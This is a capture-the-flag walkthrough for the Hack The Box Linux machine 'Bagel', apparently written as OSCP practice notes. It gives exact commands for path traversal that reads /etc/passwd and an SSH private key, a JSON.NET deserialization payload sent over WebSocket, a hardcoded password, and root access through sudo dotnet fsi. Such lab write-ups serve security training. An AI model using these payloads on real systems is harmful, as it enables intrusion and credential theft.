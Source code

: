 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
- **Exploits Used**:
  - [HTTP](HTTP) File Read via Flask route `?page=`
  - Python `proc` analysis to leak source
  - DLL retrieval from .NET server 🎯
  - JSON.NET deserialization exploit in WebSocket 📡
  - Private SSH Key exfiltration 🗝️
  - Pivot to developer via hardcoded creds
  - [dotnet](https://learn.microsoft.com/en-us/dotnet/core/tools/dotnet) F# execution as root via `sudo`

- **Open Ports**:
  - [SSH](SSH) (22)
  - [HTTP](HTTP) (8000) – Flask
  - [HTTP](HTTP) (5000) – WebSocket + .NET Core

---

[Tools](Tools)
- `nmap` 🔍
- `feroxbuster` 🦡
- `ffuf` 🚀
- `curl` 🌐
- `wscat` 📡
- `jq` 🧪
- `dnSpy` 🔬
- `dotnet`, `fsi`, and `bash` 🧠
- `ssh`, `su` 🧑‍💻

---

### Commands to Solve Box

#### 🔍 Recon
```bash
nmap -p- --min-rate 10000 10.10.11.201
nmap -p 22,5000,8000 -sCV 10.10.11.201
feroxbuster -u http://bagel.htb:8000
```

#### 📂 Initial Access (via Flask)
```bash
curl http://bagel.htb:8000/?page=../../../../etc/passwd
curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
curl http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
```

#### 🧠 DLL Retrieval
```bash
curl http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll -o bagel.dll
```
Open with [dnSpy](https://github.com/dnSpy/dnSpy) or `ilspy`.

#### 📡 WebSocket Deserialization
```bash
wscat -c ws://bagel.htb:5000
# Send malicious JSON:
{"RemoveOrder": {"$type": "bagel_server.File, bagel", "ReadFile": "../../../../home/phil/.ssh/id_rsa"}}
```

Reformat the key:
```bash
echo $KEY | jq -r . > ~/keys/bagel-phil
chmod 600 ~/keys/bagel-phil
ssh -i ~/keys/bagel-phil phil@bagel.htb
```

#### 🔐 Pivot to developer
```bash
su - developer  # password from DLL: k8wdAYYKyhnjg3K
```

#### 👑 Root via dotnet F#
```bash
sudo dotnet fsi
> System.Diagnostics.Process.Start("bash").WaitForExit();;
```

Alt: Make custom C# app
```bash
mkdir /dev/shm/exploit && cd /dev/shm/exploit
dotnet new console
nano Program.cs  # insert reverse shell or bash
sudo dotnet run
```

---

### ✅ Actions Learned From This Box
- 🐍 How Flask apps can be abused through `?page=` file reads
- 🔍 Reconnaissance with `/proc` to locate running source code
- 📦 Decompiling .NET DLLs to discover vulnerabilities
- 🔓 JSON.NET deserialization bugs via TypeNameHandling 🧨
- 🗝️ Pivoting to users via private key exfiltration
- 💻 F# interactive exploitation for privilege escalation
- 🧰 Rebuilding structured payloads using `jq` and terminal tricks
- 🧪 Understanding .NET internals (runtimeconfig, dll paths, etc.)

---

### References 📚
- 📘 [Json.NET Deserialization Exploit Writeup](https://blog.doyensec.com/2020/02/10/json-deserialization-in-dotnet.html)
- 🧪 [wscat](https://github.com/websockets/wscat)
- 🔐 [F# Interactive (fsi)](https://learn.microsoft.com/en-us/dotnet/fsharp/tutorials/fsi/)
- 💣 [dotnet TypeNameHandling vulnerability](https://www.hanselman.com/blog/remote-code-execution-via-json-deserialization-in-net)
- 📦 [dnSpy GitHub](https://github.com/dnSpy/dnSpy)

---

Let me know when you're ready for another writeup! 🧠🔥🥯